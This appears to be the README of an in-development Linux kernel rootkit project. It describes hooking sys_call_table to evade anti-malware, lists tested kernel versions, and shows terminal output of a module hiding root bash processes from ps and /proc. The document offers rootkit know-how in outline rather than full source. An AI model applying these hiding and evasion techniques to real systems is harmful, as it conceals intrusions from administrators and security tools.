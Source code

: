 # No releases yet

This software is under development.  
There's not even 1 release yet.  
  
# Hooking technique

The idea is to replace the addresses of the sys_call_table in the whole kernel, avoiding anti malware to find hook handlers on the sys_call_table.  
It must find the rootkit's sys_call_table from the opcodes in the kernel.  

# Tested versions

Until commit https://github.com/D1W0U/ARP-RootKit/commit/3ac1022783b8b81225a54989fe10513c31e93a0b, those Linux Kernel versions are tested (under Ubuntu):  
- 4.13.0-31-generic  
- 4.13.0-26-generic  
- 4.11.0-13-generic  
- 4.10.0-42-generic  
- 4.10.0-14-generic  
- 4.8.0-36-generic  
- 4.4.0-101-generic  

But the rootkit is still in development. And atm doesn't stealths anything, nor give backdoor access. It just finds the places where sys_call_tables are, preparing the project (ttw I gave support to the before versions), to start the part of a rootkit itself.  

# The first commit of this project

At the beggining, I started doing research of ways of implementing a rootkit without hooking syscalls.  
And I found a way of hidding PIDs. The problem is that the process can't terminate ever.  
But maybe hooking sys_exit and restoring the pid into the structures of the kernel, it would be possible.  

Below an example of the working `rootkit.c` first commit:  

```
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
diwou@diwou-VirtualBox:~/arprootkit$ grep 392 rootkit.c
        hide_pid(3924);
        hide_pid(3925);
diwou@diwou-VirtualBox:~/arprootkit$ sudo insmod rootkit.ko
find_vpid ffff9df24f34c180
Ok
find_vpid ffff9df24f34cb00
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3924
ls: no se puede acceder a '/proc/3924': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ ls /proc/3925
ls: no se puede acceder a '/proc/3925': No existe el archivo o el directorio
diwou@diwou-VirtualBox:~/arprootkit$ sudo rmmod rootkit
Ok
Ok
diwou@diwou-VirtualBox:~/arprootkit$ ps auwx | grep bash | grep root
root      3924  0.0  0.1  61932  4052 pts/9    S    13:10   0:00 sudo bash
root      3925  0.0  0.1  29960  5444 pts/9    S+   13:10   0:00 bash
```

Here the <commit>
